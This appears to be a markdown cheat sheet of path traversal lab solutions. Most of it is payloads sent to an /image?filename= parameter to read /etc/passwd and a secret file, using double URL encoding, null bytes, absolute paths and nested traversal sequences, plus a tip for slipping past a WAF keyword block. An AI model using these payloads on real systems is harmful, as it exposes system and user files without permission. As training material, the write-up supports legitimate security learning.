

____

Just scan it with Burp. It will make all the work. 




If you can get /etc/passwd, but cannot get /home/carlos/secret (maybe WAF is blocking the word **secret**), just URL-Encode the whole payload (even with /home/carlos/secret) like this:

```bash
/image?filename=%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%36%38%25%36%66%25%36%64%25%36%35%25%32%66%25%36%33%25%36%31%25%37%32%25%36%63%25%36%66%25%37%33%25%32%66%25%37%33%25%36%35%25%36%33%25%37%32%25%36%35%25%37%34
```

```bash
/image?filename=/../../../../../../../../../../../../home/carlos/secret
```

# File path traversal, simple case

```bash
GET /image?filename=../../../etc/passwd
```

# File path traversal, traversal sequences blocked with absolute path bypass

```bash
GET /image?filename=%2fetc%2fpasswd
```

# File path traversal, traversal sequences stripped non-recursively

```bash
GET /image?filename=...%2f.%2f...%2f.%2f...%2f.%2f...%2f.%2f...%2f.%2f...%2f.%2f...%2f.%2f...%2f.%2f...%2f.%2f...%2f.%2fetc%2fpasswd
```

# File path traversal, traversal sequences stripped with superfluous URL-decode

```bash
GET /image?filename=%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
```

# File path traversal, validation of start of path

```bash
GET /image?filename=/var/www/images/../../../etc/passwd
```

# File path traversal, validation of file extension with null byte bypass

```bash
GET /image?filename=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd%0056.jpg
```
